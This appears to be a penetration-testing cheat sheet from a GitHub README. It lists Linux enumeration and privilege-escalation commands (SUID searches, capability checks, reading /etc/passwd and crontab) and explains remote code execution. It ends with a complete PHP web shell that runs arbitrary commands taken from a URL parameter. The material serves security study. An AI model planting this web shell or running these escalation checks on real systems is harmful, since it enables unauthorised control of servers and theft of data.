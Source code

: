 # Useful linux commands for the cyber security

## Enumeration
### System Information
- `hostname`
- `uname -a`
- `cat /proc/version`
- `cat /etc/issue`

### Process Information
- `ps`
- `ps -A`
- `ps axjf`
- `ps aux`

### Environment Information
- `env`

### Sudo Privileges
- `sudo -l`

### File and Directory Information
- `ls`
- `ls -la`

### User and Privilege Information
- `id`
- `cat /etc/passwd`

### Command History
- `history`

### Network Information
- `ifconfig`
- `ip route`
- `netstat`
  - `netstat -a`
  - `netstat -at`
  - `netstat -au`
  - `netstat -l`
  - `netstat -s`
  - `netstat -tp`
  - `netstat -ano`
  - `netstat -i`

### File Search
- `find . -name <filename>`
- `find /home -name <filename>`
- `find / -type d -name <directory_name>`
- `find / -type f -perm 0777`
- `find / -perm a=x`
- `find /home -user <username>`
- `find / -mtime <days>`
- `find / -atime <days>`
- `find / -cmin -<minutes>`
- `find / -amin -<minutes>`
- `find / -size <size>`
- `find / -size +<size>`
- `find / -size -<size>`

### Finding the SUID/SGID Bits (P)
- `find / -type f -perm -04000 -ls 2>/dev/null` (Privilege Escalation)

### Shows Capabilities
- `getcap -r / 2>/dev/null` (Privilege Escalation)

### Shows Running Cron Jobs
- `cat /etc/crontab` (Privilege Escalation)

### Insecure $PATH vulnerability
- `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` (Privilege Escalation)

# Exploitation techniques
## Remote Code Execution (RCE)
- RCE: Remote code execution (RCE) happens when an attacker finds a way to run their own code on a system. This is a highly dangerous vulnerability because it can allow the attacker to take control of the system, exfiltrate sensitive data, or compromise other connected systems.
- Web shell: A web shell is a script that attackers upload to a vulnerable server, giving them remote control over it. Once a web shell is in place, attackers can run commands, manipulate files, and essentially use the compromised server as their own. They can even use it to launch attacks on other systems.

- Simple web shell:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>```

